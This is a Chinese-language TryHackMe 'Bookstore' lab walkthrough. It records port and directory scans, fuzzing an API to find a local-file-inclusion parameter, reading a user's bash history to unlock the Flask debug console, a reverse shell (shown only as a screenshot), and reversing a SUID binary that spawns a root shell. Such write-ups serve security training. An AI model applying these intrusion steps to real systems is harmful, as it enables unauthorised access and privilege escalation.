 ```yaml
---
sidebar_position: 99
tags: [Easy, Linux, 命令执行, SUID]
title: "Bookstore"
description: "Bookstore"
sidebar_label: "Bookstore"
slug: /tryhackme/99
---
```


# Bookstore

## 端口扫描

```bash
root@ip-10-10-38-183:~/bookstoreoc# nmap -sTCV -p 22,80,5000 --min-rate 1000 10.10.227.160

Starting Nmap 7.60 ( <https://nmap.org> ) at 2023-09-18 07:50 BST
Nmap scan report for ip-10-10-227-160.eu-west-1.compute.internal (10.10.227.160)
Host is up (0.00045s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (EdDSA)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Book Store
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-server-header: Werkzeug/0.14.1 Python/3.6.9
|_http-title: Home
MAC Address: 02:24:5C:43:FE:F3 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 8.36 seconds
```

## 80

```bash
root@ip-10-10-38-183:~/bookstoreoc# gobuster dir -u <http://10.10.227.160/> -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            <http://10.10.227.160/>
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt
[+] Timeout:        10s
===============================================================
2023/09/18 07:55:24 Starting gobuster
===============================================================
/images (Status: 301)
/index.html (Status: 200)
/login.html (Status: 200)
/books.html (Status: 200)
/assets (Status: 301)
/javascript (Status: 301)
/LICENSE.txt (Status: 200)
/server-status (Status: 403)
```

进行目录扫描并没有发现什么内容,

- login.html : 在页面的最低端告诉我将 debug 的 pin 放置在了 sid 的 bash_history 文件中了

    ```bash
    <!--Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file -->
    ```

- `http://10.10.116.179/assets/js/api.js` 我发现了一条特殊内容:

    ```bash
    //the previous version of the api had a paramter which lead to local file inclusion vulnerability, glad we now have the new version which is secure.
    ```

    并且在该 JS文件中发出的请求格式为:

    ```bash
    var u=getAPIURL();
    let url = 'http://' + u + '/api/v2/resources/books/random4';
    ```

    结合此分析可以得出有漏洞的 api 的请求应该是 v1

## 5000

```bash
root@ip-10-10-38-183:~/bookstoreoc# gobuster dir -u <http://10.10.116.179:5000/> -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            <http://10.10.116.179:5000/>
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/09/18 08:44:35 Starting gobuster
===============================================================
/api (Status: 200)
/console (Status: 200)
```

- api : 告诉了我一系列的 api 请求 URL
- console : flask 的 debug 站点, 我们需要有 PIN

根据 80 端口的信息, 在此我需要对 v1 版本的 URL 参数请求枚举

```bash
root@ip-10-10-38-183:~/bookstoreoc# wfuzz -u  <http://10.10.129.55:5000/api/v1/resources/books?FUZZ=12> -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt  --hh 66

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.9 - The Web Fuzzer                         *
********************************************************

Target: <http://10.10.129.55:5000/api/v1/resources/books?FUZZ=12>
Total requests: 2588

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000001:  C=200      9 L	      49 W	    347 Ch	  "id"
000100:  C=200      1 L	       1 W	      3 Ch	  "author"
000815:  C=200      1 L	       1 W	      3 Ch	  "published"
000069:  C=500    356 L	    1747 W	  23076 Ch	  "show"
```

- show : 这个应该就是我们所有的存在 LFI 漏洞的参数

利用此来读取用户 sid 的 .bash_history 内容来获取到 debug pin , 并输入我们的 console 中, 来执行命令

## 后渗透

### sid

借助我们得到的内容来获取一个反向 Shell

![img](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-124145.png)

### sid —> root

在用户 sid 的家目录发现了一个 SUID 程序, 该程序需要我们输入一个 key ,  我将其下载后查看分析认为, 我们一旦成功输入 key 就会获取到 root 权限, 进行逆向分析得到伪源码

```bash
int main() {
    setuid(0x0);
    puts("What's The Magic Number?!");
    __isoc99_scanf(0x8ee);
    if ((var_14 ^ 0x1116 ^ 0x5db3) == 0x5dcd21f4) {
            system("/bin/bash -p");
    }
    else {
            puts("Incorrect Try Harder");
    }
    rax = *0x28 ^ *0x28;
    if (rax != 0x0) {
            rax = __stack_chk_fail();
    }
    return rax;
}
```

基于此我们可以获取到 var_14 的内容, 我们只需要输入正确就可以获取到 Shell

![img](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-124153.png)